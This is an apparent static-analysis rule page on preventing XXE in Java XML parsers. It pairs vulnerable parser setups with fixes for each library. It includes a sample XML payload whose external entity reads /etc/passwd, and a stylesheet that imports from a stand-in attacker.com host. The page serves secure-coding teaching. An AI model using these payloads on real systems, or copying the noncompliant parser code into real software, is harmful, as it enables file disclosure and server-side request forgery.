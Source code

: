 https://www.w3.org/TR/xml/[XML specification] allows the use of entities that can be https://www.w3.org/TR/xml/#sec-internal-ent[internal] or https://www.w3.org/TR/xml/#sec-external-ent[external] (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or https://www.owasp.org/index.php/Server_Side_Request_Forgery[SSRFs].


Example in this XML document, an external entity read the /etc/passwd file:

----
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>  
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
----


In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

----
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet> 
----


It is recommended to disable access to external entities and network access in general.


To protect Java XML Parsers from XXE attacks https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-94ABC0EE-9DC8-44F0-84AD-47ADD5340477[these properties] have been defined since JAXP 1.5:

* ACCESS_EXTERNAL_DTD: should be set to "" when processing XML/XSD/XLS files (it looks for external DOCTYPEs)
* ACCESS_EXTERNAL_SCHEMA: should be set to "" when processing XML/XSD/XLS files (it looks for external schemalocation ect)
* ACCESS_EXTERNAL_STYLESHEET should be set to "" when processing XLS file (it looks for external imports, includes ect); 

Note that http://xerces.apache.org/xerces2-j/[Apache Xerces] is still based on JAXP 1.4, therefore one solution is to set to ``++false++`` the http://xerces.apache.org/xerces2-j/features.html#external-general-entities[external-general-entities] feature.


Avoid FEATURE_SECURE_PROCESSING feature to protect from XXE attacks because depending on the implementation:

* it has https://docs.oracle.com/en/java/javase/13/security/java-api-xml-processing-jaxp-security-guide.html#GUID-88B04BE2-35EF-4F61-B4FA-57A0E9102342[no effect] to protect the parser from XXE attacks but helps guard against excessive memory consumption from XML processing.
* or it's just an obscur shortcut (it could set ACCESS_EXTERNAL_DTD and ACCESS_EXTERNAL_SCHEMA to "" but without guarantee).

== Noncompliant Code Examples

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();  // Noncompliant
DocumentBuilder builder = df.newDocumentBuilder();
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();  // Noncompliant
parser.parse(xml, handler);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();  // Noncompliant
XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();  // Noncompliant
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);  // Noncompliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
Validator validator = schema.newValidator();   // Noncompliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----


https://dom4j.github.io/[Dom4j] library:

----
SAXReader xmlReader = new SAXReader(); // Noncompliant by default
Document xmlResponse = xmlReader.read(xml);
----


http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Noncompliant by default
Document document = builder.build(new File(xml));
----

== Compliant Solution

https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/DocumentBuilderFactory.html[DocumentBuilderFactory] library:

----
String xml = "xxe.xml";
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
df.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
DocumentBuilder builder = df.newDocumentBuilder();
Document document = builder.parse(new InputSource(xml));
DOMSource domSource = new DOMSource(document);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/parsers/SAXParserFactory.html[SAXParserFactory] library:

----
String xml = "xxe.xml";
SaxHandler handler = new SaxHandler();
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser parser = factory.newSAXParser();
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
parser.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
parser.parse(xml, handler);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/stream/XMLInputFactory.html[XMLInputFactory] library:

----
XMLInputFactory factory = XMLInputFactory.newInstance();
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");  // compliant

XMLEventReader eventReader = factory.createXMLEventReader(new FileReader("xxe.xml"));
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/transform/TransformerFactory.html[TransformerFactory] library:

----
String xslt = "xxe.xsl";
String xml = "xxe.xml";
TransformerFactory transformerFactory = javax.xml.transform.TransformerFactory.newInstance();
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
transformerFactory.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, ""); // Compliant
// ACCESS_EXTERNAL_SCHEMA not supported in several TransformerFactory implementations
Transformer transformer = transformerFactory.newTransformer(new StreamSource(xslt));

StringWriter writer = new StringWriter();
transformer.transform(new StreamSource(xml), new StreamResult(writer));
String result = writer.toString();
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/SchemaFactory.html[SchemaFactory] library:

----
String xsd = "xxe.xsd";
StreamSource xsdStreamSource = new StreamSource(xsd);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
Schema schema = schemaFactory.newSchema(xsdStreamSource);
----


https://docs.oracle.com/javase/9/docs/api/javax/xml/validation/Validator.html[Validator] library:

----
String xsd = "xxe.xsd";
String xml = "xxe.xml";
StreamSource xsdStreamSource = new StreamSource(xsd);
StreamSource xmlStreamSource = new StreamSource(xml);

SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
Schema schema = schemaFactory.newSchema(xsdStreamSource);
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); 
schemaFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); 
// validators will also inherit of these properties
Validator validator = schema.newValidator();

validator.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");   // Compliant
validator.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");   // Compliant

StringWriter writer = new StringWriter();
validator.validate(xmlStreamSource, new StreamResult(writer));   
----


For https://dom4j.github.io/[dom4j] library, ACCESS_EXTERNAL_DTD and  ACCESS_EXTERNAL_SCHEMA are not supported, thus a very strict fix is to disable doctype declarations:

----
SAXReader xmlReader = new SAXReader(); 
xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); // Compliant
Document xmlResponse = xmlReader.read(xml);
----


http://www.jdom.org/[Jdom2] library:

----
SAXBuilder builder = new SAXBuilder(); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
builder.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // Compliant
Document document = builder.build(new File(xml));
----

== See

* https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)[OWASP Top 10 2017 Category A4] - XML External Entities (XXE)
* https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#java[OWASP XXE Prevention Cheat Sheet]
* http://cwe.mitre.org/data/definitions/611.html[MITRE, CWE-611] - Information Exposure Through XML External Entity Reference
* http://cwe.mitre.org/data/definitions/827.html[MITRE, CWE-827] - Improper Control of Document Type Definition

